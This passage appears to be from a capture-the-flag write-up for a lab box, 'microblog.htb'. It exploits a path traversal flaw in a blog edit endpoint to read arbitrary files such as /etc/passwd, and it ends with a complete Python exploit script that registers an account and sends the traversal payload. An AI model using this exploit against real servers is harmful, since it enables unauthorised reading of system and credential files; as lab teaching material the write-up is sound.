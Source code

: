 As there is no sanitization on the ID, this gives arbitrary write or read as the current user. If the target is a file that the current user can write, then it will write the given text to that file. But even if it fails to write the text, that file is still added to `order.txt`, which means it’ll be read and shown on the microblog page.

#### Read POC

I’ll try reading `/etc/passwd` by setting the `id` parameter to point to it:

![image-20230515142908129](/img/image-20230515142908129.png)

This is failing to write “test” to `/etc/passwd` because my user doesn’t have access, but then the traversal payload for `passwd` is written to `order.txt`, and then the contents get loaded into the page. It shows up on the site now as well.

![image-20230515143242706](/img/image-20230515143242706.png)

#### File Read Script

Given the multiple steps to read a file, I’ll script this. Also, because the box is periodically clearing out accounts, I’ll just register a new account each time:

```

#!/usr/bin/env python3

import random
import re
import requests
import string
import sys

import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning)

file = sys.argv[1] if len(sys.argv) > 1 else "/etc/passwd"

token = ''.join(random.choice(string.ascii_lowercase) for _ in range(20))
base_url = "http://app.microblog.htb"

sess = requests.session()
sess.proxies.update({"http": "http://127.0.0.1:8080"})

# register for site
body = {"first-name": token, "last-name": token, "username": token, "password": token}
resp = sess.post("http://app.microblog.htb/register/", data=body)

# create blog
resp = sess.post("http://app.microblog.htb/dashboard/", data={"new-blog-name": token})

# file read
resp = sess.post(f"http://microblog.htb/edit/", 
                 data={"id": f"../../../../../../{file}", "txt":"0xdf"}, 
                 headers={"Host": f"{token}.microblog.htb"},
                 allow_redirects=False)
data = re.search(r'const html = "<div class = \\".+?\\">(.*?)<\\/', resp.text, re.DOTALL).group(1)
print(bytes(data, 'utf-8').decode('unicode_escape'))

```
